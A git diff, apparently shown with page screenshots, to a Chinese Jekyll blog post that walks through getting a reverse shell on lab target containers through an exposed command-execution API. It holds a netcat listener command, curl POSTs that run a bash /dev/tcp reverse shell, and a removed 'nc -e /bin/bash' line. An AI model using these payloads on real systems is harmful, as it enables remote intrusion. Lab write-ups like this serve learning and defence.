

Before and after one commit to octowhale/octowhale.github.io, a Jekyll site: the page built from _posts/2020/2020-12-03-shell-reflect2.md, in a window 1280 px wide and 1400 px high, scrolled down 1741 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
docs: 完善 shell 反弹 案例

````diff
--- a/_posts/2020/2020-12-03-shell-reflect2.md
+++ b/_posts/2020/2020-12-03-shell-reflect2.md
@@ -74,67 +74,48 @@ curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
 
 ### 0x03.1 lastest 靶机
 
+1. **攻击机** 执行 `nc` 命令 监听端口， 等待反弹连接。
 ```bash
 nc -nvlp 4444
 ```
 
+2. **攻击机** 执行 POST 命令， 进行恶意请求。
+
 ```bash
 # latest
-## nc -v 192.168.233.3 4444 -e /bin/bash
 curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
     "command":"bash",
-    "args":["--version"]
-}'
-
-curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
-    "command":"apt",
-    "args":["update"]
-}'
-
-curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
-    "command":"apt",
-    "args":["install", "-y", "netcat"]
-}'
-
-curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
-    "command":"nc",
-    "args":["-v", "192.168.233.3", "4444", "-e", "/bin/bash"]
+    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
 }'
 ```
+
+3. **攻击机** `nc` 所监听端口被成功访问， 进入容器 bash 界面。 如图所示
+
+![shell-reflect2-success.png](/images/post/2020/12/03/shell-reflect2-success-with-debian.png)
 
 
 ### 0x03.2 static 靶机
 
-**攻击机** 准备监听端口 `5555`
+1. **攻击机** 准备监听端口 `4444`
 
 ```bash
-nc -nvlp 5555
+nc -nvlp 4444
 ```
 
-**漏洞利用**
+2. **攻击机** 执行 POST 命令， 进行恶意请求。
 
 ```bash
 # static
 curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
     "command":"bash",
-    "args":["--version"]
-}'
-
-curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
-    "command":"apt",
-    "args":["update"]
-}'
-
-curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
-    "command":"apt",
-    "args":["install", "-y", "netcat"]
-}'
-
-curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
-    "command":"nc",
-    "args":["-v", "192.168.233.3", "5555", "-e", "/bin/bash"]
+    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
 }'
 ```
+
+3. POST 请求报错， 返回信息， `bash` 不存在。 如图所示
+
+![shell-reflect2-failed.png](/images/post/2020/12/03/shell-relect2-failed-with-static.png)
+
 
 ## 0x04 结论
 
--- a/index.html
+++ b/index.html
@@ -60,7 +60,7 @@ comments: false
         </div>
         <!-- Categories -->
         <div class="column one-fourth">
-            {% include sidebar-search.html %}
+            <!-- {% include sidebar-search.html %} -->
             {% include sidebar-categories-nav.html %}
         </div>
 
````
